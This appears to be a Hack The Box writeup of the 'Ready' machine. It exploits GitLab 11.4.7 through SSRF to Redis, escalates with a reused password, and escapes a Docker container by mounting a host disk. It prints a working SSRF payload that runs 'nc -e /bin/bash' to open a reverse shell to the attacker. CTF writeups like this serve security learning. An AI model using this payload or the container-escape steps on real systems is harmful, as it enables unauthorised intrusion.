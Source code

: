 ```yaml
---
title: Ready Hackthebox Writeup
date: 2020-12-17 09:00:00 +0800
categories: [Hackthebox, Active]
tags: []     # TAG names should always be lowercase
image: /assets/img/ready-hackthebox/ready-pic.jpg
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Ready
IP | 10.10.10.220
Points | 30
Os | Linux
Difficult | Medium
Creator | [bertolis](https://app.hackthebox.eu/users/27897)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Logging in `Port 5080`, which is a `gitlab` signup/signin page.
* Checking the gitlab version, which is `11.4.7`
* Looking for vulnerabilities for that version, found `SSRF - redis - RCE` in gitlab 11.4.7.
* Exploiting the `vulnerability` and getting the `reverse shell`.
* For `Privilege escalation`, found a password file and logged in as `root` in the container.
* **Mounting** the drives present in `/dev` of the container, to get the `Root Flag`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/ready-hackthebox/nmap-automator-2.png)

I accessed port `5080` which shows a gitlab login and signup page.

___
![](/assets/img/ready-hackthebox/accessing-port-5080-3.png)

Along with that I also checked the `/robots.txt`.

___
![](/assets/img/ready-hackthebox/accessing-robots-txt-4.png)

There are a lot of directories but let's first `signup` and then `login`.

___
![](/assets/img/ready-hackthebox/registering-5.png)

The following page is displayed after logging in

___
![](/assets/img/ready-hackthebox/signed-in-6.png)

In such cases, first thing I do is to check the `version` of **Gitlab**. After checking the `help` option in menu, I got this

___
![](/assets/img/ready-hackthebox/help-section-version-7.png)

I googled a bit and got to know that `Gitlab` version `11.4.7` is vulnerable to `RCE via SSRF`.

I found a [`Git Repository`](https://github.com/jas502n/gitlab-SSRF-redis-RCE) and [`Live Overflow`](https://www.youtube.com/watch?v=LrLJuyAdoAg) also explained it in one of his videos.

Now creating a new `Project` in Gitlab by importing it via `git Repo byURL`.

___
![](/assets/img/ready-hackthebox/import-project-by-git-URL-12.png)

Now before pressing the `save` button, setting up proxy and turn on the interceptor on `Burp`.

After `Intercepting` the request, let's replace `import_url` parameter by the following payload:

```
{
 git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash IP PORT\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
/ssrf.git
}
```
Make sure to check the [POC](https://github.com/jas502n/gitlab-SSRF-redis-RCE) for `RCE via SSRF`, I got the above payload after making some changes. (*Make sure you check the gaps specified in the POC, or else the playload won't work **It didn't in my case** .*)

___
![](/assets/img/ready-hackthebox/final-req-16.png)

After listening on port 1234, I got a `Reverse shell` as `git`, converted it to an [interactive shell](https://netsec.ws/?p=337)

___
![](/assets/img/ready-hackthebox/tty-shell-19.png)

Got `User Shell`

___
![](/assets/img/ready-hackthebox/got-user-text-20.png)

After getting `user flag`, For `Privilege Escalation` I started with manual enumeration and got a `backup folder` in `/opt` directory.
It contained 3 files i.e. 
1. gitlab-secrets.json
2. gitlab.rb
3. docker-compose.yml

After having a look at each of these files, I found that `gitlab.rb` contained some `passwords`.

___
![](/assets/img/ready-hackthebox/few-passwords-23.png)

Simultaneously trying each password, `wW59U!ZKMbG9+*#h` one worked as **sudo su**.

___
![](/assets/img/ready-hackthebox/became-root-but-not-root-text-24.png)

After becoming root, I tried finding out the `root.txt` but there wasn't any because we are in a **container** as *root*.

___
![](/assets/img/ready-hackthebox/not-root-text.png)

After reading this blog on [Unprivileged container builds](https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/), I tried the `new mount` technique, but before proceeding further I need to know the drives which are present in `/dev` directory with the name of `sda`.

___
![](/assets/img/ready-hackthebox/dev-sda-command-25.png)

There are 4 sda disks present, with the following names:
1. sda
2. sda1
3. sda2
4. sda3

I tried mounting all of them but only `sda2` worked.

___
![](/assets/img/ready-hackthebox/only-sda-test3-worked-27.png)

Entering the `test-sda2` folder and accessing the `root` directory, I got the `Root Flag`.

___
![](/assets/img/ready-hackthebox/got-root-flag-28.png)

___
















